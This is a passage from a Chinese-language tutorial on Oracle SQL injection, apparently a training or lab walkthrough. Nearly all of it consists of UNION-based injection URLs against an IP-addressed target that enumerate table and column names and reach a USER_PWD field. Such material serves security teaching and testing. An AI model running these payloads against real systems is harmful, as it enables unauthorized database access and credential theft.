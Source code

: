 [![img](/img/oracle/Oracle数据库注入全方位利用 - 先知社区_files/20210729095412-df144afc-f00f-1.png)](/img/oracle/Oracle数据库注入全方位利用 - 先知社区_files/20210729095412-df144afc-f00f-1.png)
获取第二个表名**LOGMNR_GLOBAL$**

```sql
http://219.153.49.228:43469/new_list.php?id=-1 union select 'null',(select table_name from user_tables where rownum=1 and table_name not in 'LOGMNR_SESSION_EVOLVE$') from dual
```

[![img](/img/oracle/Oracle数据库注入全方位利用 - 先知社区_files/20210729095412-df296eb4-f00f-1.png)](/img/oracle/Oracle数据库注入全方位利用 - 先知社区_files/20210729095412-df296eb4-f00f-1.png)
获取第三个表名**LOGMNR_GT_TAB_INCLUDE$**

```sql
http://219.153.49.228:43469/new_list.php?id=-1 union select 'null',(select table_name from user_tables where rownum=1 and table_name not in 'LOGMNR_SESSION_EVOLVE$' and table_name not in 'LOGMNR_GLOBAL$') from dual
```

##### 模糊搜索查询

获取sns_users表名

```sql
http://219.153.49.228:43469/new_list.php?id=-1 union select 'null',(select table_name from user_tables where table_name like '%user%' and rownum=1) from dual
```

[![img](/img/oracle/Oracle数据库注入全方位利用 - 先知社区_files/20210729095412-df52db46-f00f-1.png)](/img/oracle/Oracle数据库注入全方位利用 - 先知社区_files/20210729095412-df52db46-f00f-1.png)

#### 7、查询数据库列名

##### 直接查询

获取sns_users表里的字段

```sql
http://219.153.49.228:43469/new_list.php?id=-1 union select 'null',(select column_name from user_tab_columns where table_name='sns_users' and rownum=1) from dual

http://219.153.49.228:43469/new_list.php?id=-1 union select 'null',(select column_name from user_tab_columns where rownum=1 and column_name not in 'USER_NAME') from dual

http://219.153.49.228:43469/new_list.php?id=-1 union select 'null',(select column_name from user_tab_columns where rownum=1 and column_name not in 'USER_NAME' and column_name not in 'AGENT_NAME') from dual……………

http://219.153.49.228:43469/new_list.php?id=-1 union select 'null',(select column_name from user_tab_columns where rownum=1 and column_name not in 'USER_NAME' and column_name not in 'AGENT_NAME' and column_name not in 'PROTOCOL' and column_name not in 'SPARE1' and column_name not in 'DB_USERNAME' and column_name not in 'OID' and column_name <> 'EVENTID' and column_name <> 'NAME' and column_name <> 'TABLE_OBJNO') from dual
获取如下字段：USER_NAMEAGENT_NAMEPROTOCOLSPARE1DB_USERNAMEOIDEVENTIDNAMETABLE_OBJNOUSAGEUSER_PWD…………
```

##### 模糊搜索查询
